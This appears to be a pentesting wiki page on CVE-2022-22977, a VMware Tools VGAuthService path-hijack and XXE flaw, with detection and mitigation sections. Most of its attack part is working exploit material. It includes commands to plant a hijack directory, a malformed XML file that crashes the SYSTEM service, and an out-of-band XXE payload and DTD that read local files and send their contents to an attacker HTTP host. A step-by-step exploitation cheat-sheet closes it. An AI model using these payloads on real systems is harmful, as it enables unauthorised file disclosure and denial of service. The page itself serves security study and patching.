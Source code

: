 # VMware Tools VGAuthService Path Hijack & XXE File Disclosure

{{#include ../../banners/hacktricks-training.md}}

## Summary

VGAuthService.exe, the **Guest Authentication Service** shipped with VMware Tools for Windows, runs as **NT AUTHORITY\SYSTEM** inside every VMware guest.  During start-up the service tries to load several XML configuration files from the (percent-encoded) path:

```
C:\Program%20Files\VMware\VMware%20Tools\etc
```

Because Windows treats `%20` as *literal characters*, a **low-privileged local user** can create that directory tree inside `C:\` and plant attacker-controlled XML files.  Two abuse scenarios are possible:

1. **Denial-of-Service** – feed malformed XML to crash the service and break guest ↔ host features.
2. **XML External Entity (XXE) Disclosure** – craft external entities to make the service leak the contents of arbitrary files.

The issue was publicly tracked as CVE-2022-22977 and fixed in VMware Tools 12.0.5, but the technique is generally useful when *privileged services parse attacker-reachable XML from unintended locations*.

---

## 1. Creating the Hijack Directory

```
mkdir "C:\Program%20Files\VMware\VMware Tools\etc"
```

*Why does this work?*

* `CreateFileW()` is called with the string literally containing `%20` – no URL-decode takes place.
* `Program%20Files` **does not exist by default**, so the attacker wins the race by pre-creating it.

Any subsequent references to `"…Program%20Files…"` will resolve to the *attacker-controlled* folder instead of the real `C:\Program Files`.

---

## 2. DoS via Malformed `catalog` File

Place a crafted `catalog` file in the hijack directory:

```xml
<?xml version="1.0"?>
<!DOCTYPE catalog PUBLIC "-//OASIS//DTD Entity Resolution XML Catalog V1.0//EN" "http://www.oasis-open.org/committees/entity/release/1.0/catalog.dtd">
<catalog xmlns="urn:oasis:names:tc:entity:xmlns:xml:catalog">
  <uri name="../xenc-schema.xsd" uri="\\10.0.0.2\share\xenc-schema.xsd"/>
</catalog>
```

`libxml2` treats the UNC path as an **invalid URI**, logs an error and the *SYSTEM* service terminates:

```
[warning] [VGAuthService] XML Error: uri entry 'uri' broken ?: \\10.0.0.2\share\xenc-schema.xsd
```

Guest operations (clipboard sync, drag-and-drop, etc.) remain broken until someone restarts the service – a handy local DoS.

---

## 3. XXE Out-Of-Band File Exfiltration

`libxml2` in VGAuthService is compiled **with external entity support enabled**.  We can therefore leak files readable by SYSTEM.

1.  Start a simple HTTP server in the attacker VM/host:
    ```bash
    python3 -m http.server 80
    ```

2.  Write the following files:

    `C:\Program%20Files\VMware\VMware Tools\etc\catalog`
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE r [
      <!ELEMENT r ANY>
      <!ENTITY % sp SYSTEM "http://10.0.0.2/r7.dtd"> %sp;
      %param1;
    ]>
    <r>&exfil;</r>
    ```

    `r7.dtd` served over HTTP:
    ```xml
    <!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
    <!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.0.0.2/xxe?%data;'>">
    ```

3.  When the service starts it will request `r7.dtd` and attempt to fetch:

    ```http
    GET /xxe?<contents-of-win.ini> HTTP/1.1
    ```

    •  If the file contains **spaces or new-lines** the URI parsing fails but the leaked data is still written to
       `C:\ProgramData\VMware\VMware VGAuth\logfile.txt.0` (readable by administrators).

    •  Supplying a file whose contents form a **valid URI-safe string** (e.g. `C:\temp\r7.txt` containing
      `helloworld`) results in a clean out-of-band exfiltration visible in the HTTP logs:

      ```
      10.0.0.88 - - [01/Feb/2022 07:25:05] "GET /xxe?helloworld HTTP/1.0" 404 -
      ```

### What can be read?

Any file the SYSTEM account can access – e.g. `c:\windows\system32\drivers\etc\hosts`, registry hives copied to a temp file, etc.  This **does not grant full SYSTEM execution**, but leaking sensitive configs, service passwords or private keys may be enough to pivot to other escalation primitives.

---

## Detection

* `C:\Program%20Files` directory tree present – should *never* exist on a standard system.
* Repeated crashes of VGAuthService and warnings about XML errors in `logfile.txt.*`.
* Unexpected outbound HTTP requests from a guest towards attacker-controlled IPs on service start-up.

---

## Mitigations

1.  Upgrade VMware Tools to **12.0.5 or later**.
2.  As a temporary workaround, manually create `C:\Program%20Files\VMware\VMware Tools\etc` **with Administrators-only ACLs** so unprivileged users cannot write inside.
3.  Monitor for unusual `%20` encoded paths during file system audits.

---

## Exploitation Cheat-Sheet

```powershell
# 1. Prepare hijack directory (run as low priv user)
mkdir "C:\Program%20Files\VMware\VMware Tools\etc"
copy catalog C:\Program%20Files\VMware\VMware Tools\etc\

# 2. Serve external DTD
python3 -m http.server 80

# 3. Restart service (needs admin) or wait for reboot
sc stop VGAuthService & sc start VGAuthService

# 4. Observe leaked file contents in HTTP logs or
#    C:\ProgramData\VMware\VMware VGAuth\logfile.txt.0
```

---

## Take-aways for Pentesters

•  Always check for *percent-encoded* variations of privileged directories (`%20`, `%25`, etc.).  Many Windows APIs will treat them literally.

•  XML parsers linked into SYSTEM services frequently ship with **external entity support**; if you can influence *where* they load XML from you may gain powerful primitives (DoS, arbitrary file read, SSRF).

•  The lack of full RCE/LPE does not mean a bug is useless – leaking service credentials or authentication tokens often leads to further compromise.

---

## References

- [The Guest Who Could? Exploiting LPE in VMware Tools](https://swarm.ptsecurity.com/the-guest-who-could-exploiting-lpe-in-vmware-tools/)
- [Rapid7 – CVE-2022-22977: VMware Guest Authentication Service LPE fixed](https://www.rapid7.com/blog/post/2022/05/24/cve-2022-22977-vmware-guest-authentication-service-lpe-fixed/)
- [Broadcom / VMware Security Advisory VMSA-2022-0011](https://support.broadcom.com/web/ecx/support-content-notification/-/external/content/SecurityAdvisories/0/23631)

{{#include ../../banners/hacktricks-training.md}}
